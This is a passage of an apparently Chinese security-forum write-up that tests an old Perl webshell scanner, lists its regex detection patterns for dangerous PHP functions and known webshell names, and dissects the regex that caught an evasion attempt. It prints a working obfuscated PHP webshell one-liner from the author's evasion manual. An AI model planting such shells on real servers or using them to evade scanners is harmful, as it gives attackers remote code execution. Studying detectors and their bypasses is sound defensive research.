 <p blockindex="14"><img src="https://shs3.b.qianxin.com/attack_forum/2023/11/attach-56ca18a5c4c88eb9d43cad993859a0e4ee3257f8.png" alt="跨越十年-5.png" referrerpolicy="no-referrer"></p>
<h1 blockindex="15">2# 这个脚本到底干了啥</h1>
<p blockindex="16">第一次运行的时候，报了如下错误：</p>
<p blockindex="17"><img src="https://shs3.b.qianxin.com/attack_forum/2023/11/attach-00dac65e6a2ce947463b8d015b974a0d554705b0.png" alt="跨越十年-4.png" referrerpolicy="no-referrer"></p>
<p blockindex="18">运行的时候，会有这个报错：<code>/usr/bin/perl^M: bad interpreter: No such file or directory</code><br>
这是因为不同的编码方式导致，Windows环境下面新建的文本文档默认是dos格式的，dos格式在Linux系统里面有些的字符是不可见的，所以执行报错，解决方法如下：</p>
<pre blockindex="19"><code class="hljs language-c">vim ./ScanWebShell.pl
:<span class="hljs-built_in">set</span> ff<span class="hljs-comment">//显示文件格式 fileformat=dos</span>
:<span class="hljs-built_in">set</span> ff=unix   <span class="hljs-comment">//修改格式为unix</span>
:wq<span class="hljs-comment">//保存并退出</span>
</code></pre>
<p blockindex="20">刚看到这个pl脚本，我只认为它就识别了常见的高危函数和可调用的高危函数，但随着深入上手和查看，它的余威还是有点震撼我的，这是脚本内提取出的正则匹配式：</p>
<pre blockindex="21"><code class="hljs language-c">eval(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
assert(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
system(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
passthru(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
exec(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
pcntl_exec(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
shell_exec(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
popen(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
proc_open(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
preg_replace(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
create_function(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
ob_start(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
array_map(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
`.*?`
(include|include_once|require|require_once)(\s|\/\*.*?\*\/)*\(\s*.*?\$.*?\)
(include|include_once|require|require_once)(\s|\/\*.*?\*\/)*\(?\s*[\<span class="hljs-string">'"].*?\.[^p][^h][^p]\w*?[\'</span><span class="hljs-string">"].*?\s*?;
(phpspy|4ngel|wofeiwo|c99shell|webshell|php_nst|reDuh)
$[\w-_\'\\[\\]{}\.\$\*/|]+(\s|\/\*.*?\*\/)*\(.*?\)
</span></code></pre>
<p blockindex="22">首先，既然过滤了这么多高危函数，那我马上想到了我写的免杀手册的第一个实例，这里面可是一个高危函数都没有的：</p>
<pre blockindex="23"><code class="hljs language-php"><span class="hljs-meta">&lt;?=</span>~<span class="hljs-variable">$_</span>=<span class="hljs-string">'$&lt;&gt;/'</span>^<span class="hljs-string">'\{\{\{\{'</span>;@${<span class="hljs-variable">$_</span>}[_](@${<span class="hljs-variable">$_</span>}[__]);
</code></pre>
<p blockindex="24">如果不懂这个WebShell的原理，可以看开源项目的12.1部分：<a href="https://github.com/AabyssZG/WebShell-Bypass-Guide/blob/main/PHP-Webshell-ByPass-Guide.md">https://github.com/AabyssZG/WebShell-Bypass-Guide/blob/main/PHP-Webshell-ByPass-Guide.md</a></p>
<p blockindex="25"><img src="https://shs3.b.qianxin.com/attack_forum/2023/11/attach-15312f7b1d15e0370c1f1a1b1085d074f65120a7.png" alt="跨越十年-6.png" referrerpolicy="no-referrer"></p>
<p blockindex="26">没想到第一个WebShell就翻车了，这时候的我心理活动：咦不应该啊？<br>
然后我又把整个正则匹配式看了一遍，找到了关键的正则匹配式：</p>
<pre blockindex="27"><code class="hljs language-perl"><span class="hljs-string">'\$[\w-_\'\\[\\]{}\.\$\*/|]+(\s|\/\*.*?\*\/)*\(.*?\)'</span>
</code></pre>
<p blockindex="28">这个正则表达式要怎么理解呢，我们可以拆开用以下四部分来分析：</p>
<pre blockindex="29"><code class="hljs language-perl">\$ <span class="hljs-comment"># 第一部分</span>
[\w-<span class="hljs-number">_</span>\<span class="hljs-string">'\\[\\]{}\.\$\*/|]+  # 第二部分
(\s|\/\*.*?\*\/)*  # 第三部分
\(.*?\)# 第四部分
</span></code></pre>
<ul blockindex="30">
<li>第一部分: 最开头匹配符号 <code>$</code></li>
<li>第二部分：匹配一个或多个字符，这些字符可以是：字母数字下划线、单引号、反斜杠、方括号、花括号、点、<code>$</code>符号、星号、斜杠、竖线</li>
<li>第三部分: 匹配零个或多个空白字符（\s）或注释（/ / 形式的内容）。</li>
<li>第四部分: 用非贪婪模式匹配括号内的任意字符</li>
</ul>
<p blockindex="31">那现在，让我们将这些部分组合起来，可以清楚地理解整个正则表达式的匹配内容：</p>
<ul blockindex="32">